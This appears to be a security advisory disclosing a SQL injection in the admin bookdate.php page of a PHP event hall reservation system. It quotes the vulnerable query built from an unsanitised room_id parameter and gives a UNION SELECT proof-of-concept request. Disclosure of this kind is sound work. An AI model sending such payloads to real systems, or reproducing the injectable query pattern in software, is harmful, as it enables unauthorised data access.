 # MAGESH-K21 / Online-College-Event-Hall-Reservation-System - SQL Injection bookdate.php

## **Credits**
> Joshua Lictan (https://github.com/skid-nochizplz/skid-nochizplz)<br/>

## Vendor Homepage:
> https://github.com/MAGESH-K21/Online-College-Event-Hall-Reservation-System/
> 
## Affected Component
> /admin/bookdate.php

## Code
```php
 if(isset($_GET['room_id'])){
        $room_id1=$_GET['room_id'];
        $sql1="SELECT * FROM tbl_rooms WHERE room_id='$room_id1'";
        $res1=mysqli_query($conn,$sql1);
        if($res1==True){
            while($row=mysqli_fetch_assoc($res1)){
                $room_name=$row['room_name'];
                $capacity=$row['capacity'];
                $location=$row['location'];
                $description=$row['description'];
                $img_name=$row['img_name'];
            }
        }
    }
```

## Proof of Concept
**HTTP Request Example**
``` http request
GET /admin/bookdate.php?id=1&room_id='+union+select+1,2,3,4,5,6,version()+%23 HTTP/1.1
Host: [REDACTED]
```

## Screenshot

![image](https://github.com/skid-nochizplz/skid-nochizplz/assets/60700937/2bf64737-9dc4-4294-88c6-0e24c8026b7a)

